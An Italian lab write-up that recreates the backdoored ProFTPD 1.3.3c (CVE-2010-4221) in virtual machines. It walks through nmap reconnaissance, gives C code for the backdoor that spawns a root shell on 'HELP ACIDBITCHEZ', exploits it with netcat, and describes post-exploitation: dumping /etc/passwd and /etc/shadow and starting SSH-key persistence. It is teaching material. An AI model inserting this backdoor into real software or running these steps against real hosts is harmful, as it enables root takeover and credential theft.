








# Exploit di CVE-2010-4221 di ProFTPD versione 1.3.3c

## Introduzione  

Per trovare questa vulnerabilità è stato utilizzato Gemini come motore di ricerca per individuare una falla reale del passato. Dopo l'analisi di alcune vulnerabilità, è stata scelta questa CVE per poter dimostrare come un bug logico causato da una Supply Chain compromise, unito alla possibilità di eseguire comandi non previsti, possa causare un danno notevole all'infrastruttura di rete.

L'obiettivo di questa prova è creare un exploit che possa aprire una reverse shell (o una shell interattiva diretta) sfruttando la celebre falla descritta dal [NIST](https://nvd.nist.gov/vuln/detail/cve-2010-4221) sotto l'identificativo CVE-2010-4221.

- Multiple stack-based buffer overflows in the pr_netio_telnet_gets function in netio.c in ProFTPD before 1.3.3c allow remote attackers to execute **arbitrary code** via vectors involving a TELNET IAC escape character to a (1) FTP or (2) FTPS server.

Sebbene la scheda tecnica del NIST descriva i problemi di stack-based buffer overflow che affliggevano le release precedenti del software, la release specifica ProFTPD 1.3.3c è passata alla storia per un evento peculiare: il codice sorgente ufficiale presente sui server di distribuzione fu manipolato da attaccanti per inserire una backdoor logica. Di conseguenza, l'analisi e lo sfruttamento in questa specifica versione deviano dalla corruzione di memoria classica per concentrarsi sull'abuso di un trigger logico pre-programmato.

Il CVSS v2 di questa vulnerabilità è 10.0 High, come mostrato in immagine, perchè ha un impatto molto grave (Remote Code Execution) e ha Access Vector da Rete,  Access Complexity Bassa e No autenticazione.  


  

## Setup (frutto di varie ricerche su Google)

La CVE analizzata colpisce l'applicazione ProFTPD 1.3.3c per come è creata a livello di codice sorgente (analisi approfondita della [Fase 2](#fase-2-analisi-del-bersaglio-e-della-cve-2010-4221) del laboratorio), rendendola indipendente da una specifica distribuzione Linux (come tracciato dal NIST tramite lo standard CPE). Tuttavia, ai fini della prova, è stata adottata la distribuzione Ubuntu 12.04 LTS 32bit in quanto piattaforma storicamente coerente con il periodo di rilascio del software (2010-2012), garantendo la compatibilità delle librerie di sistema (glibc) necessarie alla corretta compilazione del binario sorgente.

L'ambiente creato per la prova consiste in 2 macchine virtuali su VirtualBOX:

- Kali Linux 2025.4 per l'attaccante
- Ubuntu Server 12.04 32bit creata a partire dalla iso _ubuntu-12.04-server-i386_ ottenibile nel sito di [Ubuntu Old Release](https://old-releases.ubuntu.com/releases/12.04/)  

**Note tecniche su Ubuntu 12.04 per replicare l'esperimento**  

Per poter rendere questa macchina virtuale operativa al giorno d'oggi, è necessario superare un principale ostacolo tecnico legato allo stato di obsolescenza della distribuzione, ovvero il puntamento ai repository ufficiali ormai dismessi.  
Essendo Ubuntu 12.04 una distribuzione che ha raggiunto lo stato di End of Life (EOL), rif. [Wiki Ubuntu](https://wiki.ubuntu.com/PrecisePangolin/ReleaseNotes), i server di aggiornamento standard non risultano più raggiungibili. In conformità con le linee guida ufficiali di Canonical (società che gestisce le distribuzioni di Ubuntu) sulla gestione delle vecchie release, è necessario reindirizzare il gestore dei pacchetti APT verso i server di archivio storici.

Per fare ciò, il file di configurazione delle sorgenti software (`/etc/apt/sources.list`) deve essere modificato sostituendo i puntamenti obsoleti a `archive.ubuntu.com` e `security.ubuntu.com` con l'URL ufficiale di conservazione:

- <http://old-releases.ubuntu.com/ubuntu/>

Questa procedura permette al comando `apt-get` di interrogare correttamente l'albero dei pacchetti del 2012 e scaricare le dipendenze software necessarie alla configurazione della macchina.  

## Threat Model  

Come threat model del laboratorio l'attaccante è già all'interno della rete locale ma non ne conosce la topologia. Per poter realizzare questo modello sono state sfruttate le funzionalità di VirtualBOX in cui si può associare alle macchine virtuali un indirizzo IP locale, usando l'opzione _Scheda solo Host_ nella sezione rete di VBOX.  

  

In questo modo nella rete saranno presenti 3 macchine:

- Kali per l'attaccante
- Ubuntu Server che rappresenta il server vulnerabile
- Windows, la macchina ospitante delle VM, simula un endpoint legittimo presente sul segmento LAN del server vulnerabile  

Questa architettura permette di analizzare uno scenario più realistico in cui ci sono server e client (anche se solo uno per parte) in cui entra un'attaccante per provare a prendere potere all'interno dell'organizzazione. 

## Fase 1: Ricognizione

L'attaccante è entrato in una rete locale ma non conosce la topologia della rete, quante macchine ci sono, quali indirizzi hanno e quali software sono in esecuzione. 

Il primo step in assoluto è capire il segmento di rete a cui si è stati collegati, nella maggior parte dei casi un server DHCP ha dato un indirizzo. Per farlo si utilizza il comando `ip a` e il risultato ottenuto è simile all'immagine sottostante 

  

Da questo si può evincere che la rete locale è `192.168.56.0/24`.

Trovato il segmento di rete è tempo di mapparlo con il comando `nmap -sn X`, dove X è la rete da analizzare, in cui si vedranno gli host sulla rete. Il risultato deve essere simile a questo 

  

Si vedono 4 host sulla rete, per l'attaccante sono 3 macchine sulla rete (nella simulazione sono Kali, Ubuntu e Windows descritte prima e il servizio DHCP di VBOX all'indirizzo `.100`). 

Ora che si conoscono gli host è necessario analizzare i servizi che sono attivi sulle macchine, per capire se c'è qualcosa di vulnerabile. Ai fini del laboratorio occorre analizzare solo l'idirizzo di Ubuntu, in un caso reale questa operazione viene fatta per tutti gli host presenti. Si sfrutta sempre `nmap` ma con diversi attrubuti, specificatamente il comando `nmap -sV -F 192.168.56.X` (l'opzione -F limita la scansione alle porte più comuni) e il risultato è

  

Si può già notare che sono presenti 2 servizi sulla macchina:

- ProFTPD 1.3.3c su tcp/21
- OpenSSH 5.9p1 su tcp/22

Per controprova dell'effettivo funzionamento del serve FTP ci si può collegare con `nc -nv 192.168.56.X 21` e se tutto è configurato bene il server risponde con la sua presentazione in cui dice la versione. 

## Fase 2: Analisi del bersaglio e della CVE-2010-4221

L'attaccante in questo momento ha trovato due servizi interattivi e deve capire se e come può sfruttare uno di questi servizi per poter continuare il suo attacco. 

L'analisi inizia col cercare nei database pubblici le possibili CVE dei servizi e viene identificata nello specifico la CVE-2010-4221 (correlata anche all'identificativo di esecuzione remota CVE-2010-4652).

Consultando il database ufficiale del NIST e i bollettini di sicurezza del MITRE, si evince che questa vulnerabilità non è frutto di un errore di programmazione involontario (come un semplice buffer overflow), bensì di un attacco di tipo Supply Chain avvenuto a fine 2010. Attaccanti ignoti sono riusciti a compromettere i server di distribuzione ufficiali del progetto ProFTPD, sostituendo l'archivio dei sorgenti della versione 1.3.3c con una variante contenente una backdoor logica (Ref: [expliot-db.com](https://www.exploit-db.com/exploits/15662)).

### Meccanismo di Innesco e Analisi del Codice

Le analisi effettuate sui sorgenti alterati di ProFTPD 1.3.3c hanno rivelato che la manipolazione risiede nel file di gestione dei comandi principali (src/help.c). Gli attaccanti hanno inserito un controllo non autorizzato che intercetta le stringhe inviate dai client remoti prima che queste passino al normale flusso di autenticazione.

Il funzionamento si basa su una logica condizionale elementare:

- L'Innesco: Se un utente non autenticato si connette al server e invia il comando specifico HELP ACIDBITCHEZ, il software riconosce la stringa tramite una comparazione standard (strcmp).

- L'Esecuzione: Al verificarsi di questa condizione, il programma invoca le funzioni di sistema setuid(0) e setgid(0) per elevare istantaneamente i privilegi all'utente root (il super-amministratore del sistema). Successivamente, tramite la chiamata system("/bin/sh"), il server istanzia una shell interattiva locale con i massimi privilegi.

## Fase 3: Ricreazione della Backdoor in ProFTPD

La versione di ProFTPD scaricabile al giorno d'oggi è stata bonificata da questo bug, quindi è necessario ricreare manualmente la versione corrotta prima di far continuare l'attacco. Fare l'attacco in questo momento non porterebbe alcun risultato, lo possiamo verificare attivamente provando a collegarsi al server FTP e inserendo l'input corrotto. Il risultato sarà questo:



### 1. Analisi e Modifica del Codice Sorgente

L'analisi dei log storici dell'attacco del 2010 evidenzia che la backdoor originale risiedeva proprio in risposta a quel comando. Nel software installato sul target, tale logica è governata dal file `src/help.c`. Per riprodurre la falla, è stata modificata la funzione globale di risposta del comando di aiuto, denominata `pr_help_add_response(cmd_rec *cmd, const char *target)`.
Nello specifico bisogna agire sulla macchina Ubuntu e trovare il file sorgente di ProFTPD, che dipende dal percorso di installazione.

Trovato `help.c` lo si apre con un editor come `nano`, si cerca la funzione di gestione dell'input e si aggiunge una porzione di codice che è la replica della Supply Chain compromise di cui tratta la CVE. 

Il codice risultante sarà quindi:
```c
int pr_help_add_response(cmd_rec *cmd, const char *target) {
    /* INIZIO BACKDOOR ARTIFICIALE (Simulazione CVE-2010-4221) */
    if (target && strcmp(target, "ACIDBITCHEZ") == 0) {
        setuid(0);
        setgid(0);
        system("/bin/sh");
    }
    /* FINE BACKDOOR */
    /*
    Continuazione codice originale
    */
```
**Analisi del codice iniettato**

- `strcmp(target, "ACIDBITCHEZ") == 0`: Verifica se la stringa inserita dall'utente remoto dopo il comando HELP corrisponde esattamente alla parola chiave segreta utilizzata dagli attaccanti nel 2010.

- `setuid(0); setgid(0);`: Forza l'interfaccia di esecuzione ad assumere l'identità dell'utente con UID 0 (ovvero root), bypassando qualunque restrizione sui privilegi dell'utente che esegue il servizio FTP.

- `system("/bin/sh");`: Sostituisce il normale flusso del programma con l'istanza di una shell interattiva di sistema direttamente sul server.

### 2. Compilazione ed Esecuzione del Binario Vulnerabile

Creata la versione corrotta di ProFTPD è necessario ricompilare il codice sorgente per poter attivare il servizio vulnerabile del 2010. Per farlo si utilizzano le istruzioni di Make, presente all'interno di Ubuntu, che creerà effettivamente l'applicazione corrotta. Posizionandosi sulla cartella sorgente di ProFTPD i comandi da utilizzare sono i seguenti

- `sudo make clean` per pulire l'installazione precedente
- `sudo make` per la compilazione vera e propria con GCC 
- `sudo make install` sovrascrittura dell'applicazione nel sistema 

Una volta ricompilato è necessario riavviare il servizio per rendere operativo quello vulnerabile. Quindi procedere con le istruzioni seguenti 

- `sudo killall proftpd` per spegnere tutti i processi che hanno quel nome (sarà solo uno)
- `sudo /PATH/proftpd` per attivare il nuovo processo (dove PATH è il perdorso dove si trova proftpd)

Da questo momento in poi può continuare l'attacco iniziato prima. 

## Fase 4: Expliot vero e proprio 

Ritornando all'attaccante che ha consultato la CVE e ha trovato l'input corrotto, si può procedere con l'attacco vero e proprio e lo sfruttamento della backdoor. 

Tramite Netcat con il comando `nc -nv 192.168.56.102 21` ci si collega al server FTP trovato in precedenza. 

La connessione è stabilita e il server sta solo aspettando i comandi. L'attaccante quindi provvederà all'inserimento dell'input corrotto `HELP ACIDBITCHEZ` e non uscirà nessun output. 

Se in questo momento si prova a digitare un comando shell come `whoami` ci sarà una risposta e sarà `root`. 



Da questo momento l'attaccante ha il pieno controllo della macchina Ubuntu e può farci ciò che vuole, come estrarre informazioni sugli utenti che possono accedere alla macchina oppure crearsi un modo per guadagnare persistenza e potersi collegare alla macchina anche se il bug di ProFTPD venisse risolto. 

## Fase 5: Possibili conseguenze Post-Expliot

### Informazioni degli utenti

Avendo aperto una cosiddetta shell cieca, l'attaccante non vede la classica interfaccia che dichiara quale utente sta agendo sulla shell, cercherà con dei PATH assoluti i file critici di Linux, come `passwd` e `shadow`. 

Un primo comando sarà `cat /etc/passwd`, di tutto ciò che verrà scritto in output le righe importanti sono quelle che hanno UID (terzo campo della riga) uguale o superione al 1000 che identificano gli utenti. In immagine si vede che è presente l'utente `cyber` (è quello inserito durante la creazione della VM Ubuntu).  



Il secondo file critico è quello dove sono salvate le password, che si può leggere perchè si hanno i privilegi di root. Quindi il comando da usare in questo momento è `cat /etc/shadow` e sull'output ci saranno molte righe ma l'importante è sempre quella dell'utente, nel caso dell'esempio 



L'interpretazione di questa riga è lo standard di salvataggio password di Linux

`utente: $ algoritmo di hash $ hash della password`

Questi dati possono essere salvati dall'attaccante per poter eseguire un Offline Password Guessing e quindi provare a trovare le credenziali degli utenti. 

### Creazione canale di comunicazione nascosto 

Per poter creare un canale di comunicazione più stabile della connessione FTP, l'attaccante può iniettare una chiave pubblica per SSH, legata alla propria macchina Kali Linux, nella configurazione dell'utente Root. In questo modo potrà sfruttare una connessione SSH a privilegi massimi bypassando ProFTPD (che in un caso reale viene sistemato dagli amministratori non appena vengono a conoscenza del bug).

Per poterlo fare l'attaccante genera una coppia di chiavi SSH con il comando `ssh-keygen -t rsa`